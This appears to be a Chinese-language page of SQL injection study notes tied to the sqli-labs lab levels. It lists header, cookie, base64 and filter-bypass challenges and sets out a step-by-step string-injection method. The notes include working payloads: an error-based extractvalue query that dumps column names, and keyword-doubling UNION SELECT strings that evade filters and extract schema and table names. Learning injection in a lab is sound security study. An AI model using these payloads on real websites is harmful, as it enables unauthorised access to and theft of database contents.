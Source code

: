 >   19.   基于POST错误的Referer字段数据头注入
>
>   20.   基于POST错误的Cookie-Uagent字段数据头注入
>
>   21.   基于base64编码单引号的Cookie注入
>
>         1.   只需将注入sql加密成base64即可
>
>   22.   基于base64编码加密的双引号Cookie注入
>
>   23.   基于GET错误的过滤注释
>
>   24.   POST二次排序注入-存储型注入
>
>   25.   基于错误的GET单引号-你的OR及AND归我所有【基于GET盲注整型单引号-你的OR及AND归我所有】
>
>   26.   基于GET错误-你的空格和注释归我所有【编码绕过】【基于GET错误-你的空格和注释归我所有-字符型-括号】
>
>   27.   基于GET错误-你的UNION和SELECT归我所有-字符型单引号【字符型双引号】
>
>   28.   基于GET错误-你的UNION和SELECT归我所有-字符型单引号和括号





>   基础字符串注入：**php中一般是单引号**
>
>   -   因为是字符串所以需要单引号或双引号限制参数，首先需要关闭单引号或双引号
>
>   -   然后注释后面的sql
>
>   -   如果没报错就使用order by 语句 猜出有多少个字段
>
>   -   然后使用select 语句查询：
>
>       -   >   -   database() # 在用的[数据库](https://cloud.tencent.com/solution/database?from=10680)名
>           >   -   user()    # 用户信息
>           >   -   version() # 数据库版本信息
>           >   -   @@basedir # 数据库安装路径
>           >   -   @@version_compile_os # 操作系统版本位
>
>       -   记录数据名称
>
>   -   查看当前数据库下的所有表名f"&&(extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users')))))#
>
>       -   ```sql
>            select 1, group_concat(table_name),3 from information_schema.tables where table_schema=database()
>                  
>            -- 爆库
>            username=admin&password=1 ' ununionion seselectlect 1,2,group_concat(schema_name)frfromom
>            (infoorrmation_schema.schemata) #
>                  
>            username=admin&password=1 ' ununionion seselectlect 1,2,group_concat(table_name)frfromom(infoorrmation_schema.tables)
>            whwhereere table_schema="ctf" %23
>            ```
>
>       -   记录表名称
>
>   -   查询当前数据库下指定表名中所有字段名，
>
>       -   记录列名
